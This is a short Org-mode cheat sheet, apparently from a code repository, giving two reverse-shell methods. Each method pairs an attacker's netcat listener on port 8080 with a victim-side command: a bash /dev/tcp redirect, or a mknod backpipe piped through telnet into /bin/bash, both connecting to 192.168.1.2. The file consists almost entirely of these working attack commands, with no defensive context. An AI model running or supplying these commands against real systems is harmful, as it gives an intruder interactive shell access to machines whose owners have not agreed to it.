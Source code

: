 #+STARTUP: content
* bash netcat method 1
** attacker

#+begin_src sh
nc -l -n -vv -p 8080
#+end_src

** victim

#+begin_src sh
/bin/bash -i > /dev/tcp/192.168.1.2/8080 0<&1 2>&1
#+end_src

* bash netcat method 2

** attacker

#+begin_src sh
nc -l -n -vv -p 8080
#+end_src

** victim

#+begin_src sh
mknod backpipe p && telnet 192.168.1.2 8080 0<backpipe | /bin/bash 1>backpipe
#+end_src
